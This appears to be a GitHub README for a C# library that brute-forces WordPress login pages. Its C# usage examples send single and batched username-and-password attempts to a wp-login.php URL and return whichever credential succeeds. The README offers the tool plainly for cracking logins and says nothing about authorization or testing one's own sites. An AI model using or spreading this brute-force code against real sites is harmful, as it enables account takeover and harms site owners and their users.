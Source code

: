 
# WordPress Cracker (Bruteforce) with C#

Cracking WordPress login page with a simple bruteforce. 

Note: this project is a C# standard library, not a console app. If you want an implementation, consider creating one and add a reference to this library.


## Documentation

### Bruteforcing
Below is a simple example on how to simulate a login to a WordPress site with the specified username, password, and login page url. It'll return true if the given `FormData` object is valid, otherwise false.

```csharp
using Opapps.Lib.WordpressCracker.Entities;
using Opapps.Lib.WordpressCracker.Services;

...

var loginUrl = "https://some-url.com/wp-login.php";
var loginCredential = new FormData("user", "some correct password");
var wpLoginCracker = new WordpressLoginCracker();
bool res = await wpLoginCracker.AttemptLoginAsync(loginUrl, loginCredential); // return true


```

You can also bruteforce with many `FormData` objects at once:


```csharp
using Opapps.Lib.WordpressCracker.Entities;
using Opapps.Lib.WordpressCracker.Services;

...

var loginUrl = "https://some-url.com/wp-login.php";
var loginCredentials = new List<FormData>();
loginCredentials.Add(new FormData("user", "some wrong password"));
loginCredentials.Add(new FormData("user", "some correct password"));

var wpLoginCracker = new WordpressLoginCracker();
FormData res = await wpLoginCracker.AttemptLoginRangeAsync(loginUrl, loginCredentials); // return the second `FormData` object.

```
